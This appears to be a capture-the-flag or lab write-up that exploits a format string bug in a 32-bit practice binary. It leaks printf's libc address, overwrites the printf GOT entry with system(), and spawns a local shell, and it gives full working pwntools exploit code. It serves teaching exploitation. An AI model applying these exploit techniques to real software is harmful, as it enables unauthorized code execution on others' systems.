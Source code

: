 # 🛠 GOT Overwrite Write-up – Format String Exploit

## 🔍 Binary Info

* **Architecture**: 32-bit (x86)
* **Protection**:

  * NX: Enabled
  * PIE: Disabled (fixed binary base address)
  * Stack canary: Disabled
  * RELRO: Partial (GOT is writable)
  * ASLR: Enabled
* **Vulnerability**: Format String Vulnerability

---

## 🐛 Vulnerability

The binary has a format string vulnerability that allows us to:

1. **Leak** a libc address (in this case, `printf@GOT`) using `%s` with a stack-controlled pointer.
2. **Overwrite** the GOT entry of `printf()` with the address of `system()` using a format string write.


we only read 4 bytes because printf will print until it reach null byte `u32(p.recv(4))`

---

## ⚙️ Exploit Steps

### 1. Leak `printf` address via `%6$s`

We use the format string `%6$s` and place the address of `printf@GOT` after it on the stack. This causes the program to:

* Print the contents at the memory address `printf@GOT`
* Give us the actual `printf()` address in libc

```py
payload = b'%6$s' + p32(elf.got['printf'])
p.sendline(payload)
printf_leak = u32(p.recv(4))  # Read leaked address
```

### 2. Calculate libc base address

Once we leak `printf`, we use it to calculate the **base address of libc** by subtracting the offset of `printf()` in libc:

```py
libc.address = printf_leak - libc.sym['printf']
```

This allows us to get the address of any libc function, like `system()`.

---

### 3. Overwrite `printf@GOT` with `system`

Now that we know the address of `system()`, we overwrite the GOT entry of `printf` with it using `fmtstr_payload`:

```py
payload = fmtstr_payload(5, {elf.got['printf']: libc.sym['system']})
p.sendline(payload)
```

> Note: We use offset `5` here for the format string write because our target address is placed at that position on the stack. This may vary depending on the binary and environment.

---

### 4. Call `system("/bin/sh")`

Since `printf()` is now actually `system()`, we send `/bin/sh` to trigger a shell:

```py
p.sendline('/bin/sh')
p.interactive()
```

---

## 📜 Full Exploit Code

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc

p = process()

# ASLR bypass - Leak printf address
payload = b'%6$s'
payload += p32(elf.got['printf'])
p.sendline(payload)

# Parse leaked address
printf_leak = u32(p.recv(4))
libc.address = printf_leak - libc.sym['printf']

p.clean()

# Overwrite GOT printf → system
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

# Trigger system('/bin/sh')
p.sendline('/bin/sh')
p.interactive()
```

---

Output:


![result](../img/aslr_result.png)




## 🧠 Key Takeaways

* Format string vulnerabilities are powerful when the binary lacks full RELRO and PIE.
* With `%n`/`%s` and known stack offsets, GOT entries can be overwritten to redirect function calls.
* Once `system()` is reachable, a shell can be spawned with `/bin/sh`.

---
